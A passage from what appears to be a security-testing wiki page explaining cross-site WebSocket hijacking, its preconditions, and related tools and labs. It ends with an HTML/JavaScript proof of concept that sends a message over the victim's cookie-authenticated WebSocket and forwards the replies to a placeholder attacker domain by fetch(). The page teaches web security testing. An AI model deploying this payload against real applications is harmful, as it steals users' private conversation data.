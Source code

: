 - [https://github.com/Anof-cyber/PyCript](https://github.com/Anof-cyber/PyCript)
- [https://github.com/Anof-cyber/PyCript-WebSocket/](https://github.com/Anof-cyber/PyCript-WebSocket/)

## Websocket Lab

In [**Burp-Suite-Extender-Montoya-Course**](https://github.com/federicodotta/Burp-Suite-Extender-Montoya-Course) you have a code to launch a web using websockets and in [**this post**](https://security.humanativaspa.it/extending-burp-suite-for-fun-and-profit-the-montoya-way-part-3/) you can find an explanation.

## Cross-site WebSocket hijacking (CSWSH)

**Cross-site WebSocket hijacking**, also known as **cross-origin WebSocket hijacking**, is identified as a specific case of **[Cross-Site Request Forgery (CSRF)](csrf-cross-site-request-forgery.md)** affecting WebSocket handshakes. This vulnerability arises when WebSocket handshakes authenticate solely via **HTTP cookies** without **CSRF tokens** or similar security measures.

Attackers can exploit this by hosting a **malicious web page** that initiates a cross-site WebSocket connection to a vulnerable application. Consequently, this connection is treated as part of the victim's session with the application, exploiting the lack of CSRF protection in the session handling mechanism.

In order for this attack to work, these are the requirements:

- The websocket **authentication must be cookie based**
- The cookie must be accessible from the attackers server (this usually means **`SameSite=None`**) and no **Firefox Total Cookie Protection** enabled in Firefox and no **blocked third-party cookies** in Chrome.
- The websocket server must not check the origin of the connection (or this must be bypasseable)

Also:

- If the authentication is based on a local connection (to localhost or to a local network) the attack **will be possible** as no current protection forbids it (check [more info here](https://blog.includesecurity.com/2025/04/cross-site-websocket-hijacking-exploitation-in-2025/))

### Simple Attack

Note that when **establishing** a **websocket** connection the **cookie** is **sent** to the server. The **server** might be using it to **relate** each **specific** **user** with his **websocket** **session based on the sent cookie**.

Then, if for **example** the **websocket** **server** **sends back the history of the conversation** of a user if a msg with "**READY"** is sent, then a **simple XSS** establishing the connection (the **cookie** will be **sent** **automatically** to authorise the victim user) **sending** "**READY**" will be able to **retrieve** the history of the **conversation**.:

```html
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```
